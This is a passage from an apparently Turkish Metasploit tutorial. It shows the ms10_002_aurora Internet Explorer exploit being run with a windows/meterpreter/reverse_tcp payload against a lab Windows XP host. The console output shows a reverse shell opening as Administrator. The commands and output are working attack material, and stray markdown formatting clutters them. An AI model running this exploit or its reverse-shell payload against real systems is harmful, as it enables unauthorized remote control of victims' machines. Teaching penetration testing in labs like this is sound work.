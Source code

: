 ```bash
Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit**(**ms10_002_aurora**)** **&gt;** set URIPATH /
URIPATH **=&gt;** /
msf exploit**(**ms10_002_aurora**)** **&gt;** set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=&gt;** windows/meterpreter/reverse_tcp
msf exploit**(**ms10_002_aurora**)** **&gt;** set LHOST 192.168.1.101
LHOST **=&gt;** 192.168.1.101
msf exploit**(**ms10_002_aurora**)** **&gt;** exploit -j
**[*********]** Exploit running as background job.

**[*********]** Started reverse handler on 192.168.1.101:4444 
**[*********]** Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
**[*********]**  Local IP: <a href="http://192.168.1.101:8080/">http://192.168.1.101:8080/</a>
**[*********]** Server started.
msf exploit**(**ms10_002_aurora**)** **&gt;**
```



Açılan yeni oturumu `sessions -l` komutuyla görebilirsiniz. Aşağıdaki listede kendi IP adresimizden `LHOST: 192.168.1.101` diğer hedef bilgisayara `RHOST:192.168.1.201` bağlantı kurulduğu görülmektedir.


```bash
msf exploit**(**ms10_002_aurora**)** **&gt;** 
**[*********]** Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.201
**[*********]** Sending stage **(**749056 bytes**)** to 192.168.1.201
**[*********]** Meterpreter session 1 opened **(**192.168.1.101:4444 -&gt; 192.168.1.201:8777**)** at Mon Dec 06 08:22:29 -0700 2010

msf exploit**(**ms10_002_aurora**)** **&gt;** sessions -l

Active sessions
**===============**

  Id  Type                   Information                                      Connection
  --  ----                   -----------                                      ----------
  1   meterpreter x86/win32  XEN-XP-SP2-BARE\Administrator @ XEN-XP-SP2-BARE  192.168.1.101:4444 -&gt; 192.168.1.201:8777

msf exploit**(**ms10_002_aurora**)** **&gt;**
```



## 1.Bilgisayarın Ağ Kartları
